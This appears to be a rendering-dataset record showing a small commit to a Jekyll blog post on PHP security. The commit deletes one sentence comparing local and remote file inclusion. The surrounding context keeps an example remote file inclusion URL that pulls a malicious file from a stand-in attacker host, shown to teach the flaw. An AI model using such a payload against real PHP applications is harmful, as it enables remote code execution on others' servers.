

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 8729 px. Shown: the whole window, without its empty margins (108-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; after the commit the page ends 9555 px from its top, so only the background shows below that.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -174,5 +174,3 @@ When an attacker is exploiting RFI he uses a Remote File while on the other side
 
 On the other hand while exploiting RFI you can upload file from remote server which in 99% of the times will result in RCE(Remote Code Execution). Nowadays it's very rare to see RFI in the wild because including files from remote location is disabled in PHP by default (<code>allow_url_include</code>).
 For example <code>https://localhost/app.php?file=http://attackers.website.com/somemaliciousfile</code>. You could execute malicious code from the <code>somemaliciousfile</code> file and use it for evil intention.
-
-LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but you never know 🙂.
```
